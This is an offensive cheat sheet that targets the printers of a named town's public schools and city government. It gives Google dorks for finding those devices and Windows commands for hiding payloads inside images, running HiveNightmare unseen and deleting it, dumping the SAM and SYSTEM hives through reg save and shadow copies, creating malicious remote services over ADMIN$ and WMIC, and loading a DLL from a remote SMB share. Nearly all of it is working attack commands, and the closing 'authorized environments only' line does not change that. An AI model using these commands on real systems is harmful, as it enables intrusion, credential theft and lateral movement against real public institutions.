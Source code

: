 
# Moberly Printer Recon & Post-Exploitation Cheat Sheet

---

## Google Dorks for Moberly Printers

```plaintext
inurl:"/hp/device/this.LCDispatcher" "Moberly"
intitle:"Printer Status" "Moberly Public Schools"
intitle:"Web Image Monitor" inurl:"/wim" "Moberly"
inurl:"/printer/main.html" "City of Moberly"
intitle:"Web Jetadmin" "Moberly"
inurl:"/printers/" "Moberly"
inurl:"/PPS/public/" "Moberly"
intitle:"Konica Minolta" inurl:"/wcd/" "Moberly"
intitle:"PaperCut MF" "Moberly"
intitle:"Lexmark" inurl:"/printer/" "Moberly"
intitle:"Canon Remote UI" "Moberly"
intitle:"EpsonNet Config" "Moberly"
````

---

## Embedding & Extracting Payloads with Certutil

```cmd
copy /b nsfw.jpg + payload.7z nsfw.jpg
certutil -decode nsfw.jpg dropper.7z
7z x dropper.7z -oC:\Users\Public\
```

---

## Executing HiveNightmare.exe from Encoded File

```cmd
certutil -decode nsfw.jpg HiveNightmare.exe
start "" HiveNightmare.exe
```

Or stealthier with PowerShell:

```powershell
Start-Process -FilePath .\HiveNightmare.exe -WindowStyle Hidden
del HiveNightmare.exe
```

---

## Extracting SAM & SYSTEM Hives for Credential Dumping

```cmd
# Export SAM hive (requires admin privileges)
reg save HKLM\SAM C:\Windows\Temp\SAM.save

# Export SYSTEM hive (needed for decryption)
reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM.save
```

---

## Using Shadow Copies to Access Protected Files

    
    vssadmin create shadow /for=C:
    diskshadow.exe /s script.txt
    # (script.txt should contain commands to expose shadow copy)
    
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\System32\config\SAM C:\Temp\SAM
```

Process dumped files offline or with custom scripts for hash extraction.

---

## Remote Execution Using Native Windows Tools (LOLBins)

    
    REM Map ADMIN$ share on target
    net use \\TARGET_IP\ADMIN$ /user:DOMAIN\AdminUser Password123
    copy malicious.dll \\TARGET_IP\ADMIN$\Temp\malicious.dll
    
    REM Create remote service running malicious DLL via rundll32
    sc.exe \\TARGET_IP create MaliciousService binPath= "rundll32.exe C:\Windows\Temp\malicious.dll,EntryPoint" start= auto
    
    REM Start the malicious service
    sc.exe \\TARGET_IP start MaliciousService
    
    REM Clean up the service
    sc.exe \\TARGET_IP delete MaliciousService
    
    REM Alternatively, execute directly with WMIC
    wmic /node:"TARGET_IP" process call create "rundll32.exe C:\Windows\Temp\malicious.dll,EntryPoint"
```

---

## Direct Reflective DLL Injection Over SMB


    rundll32.exe \\10.10.X.X\share\nsfw.dll,ReflectEntry
```

---

*Use these commands responsibly within authorized environments only.*

```
```
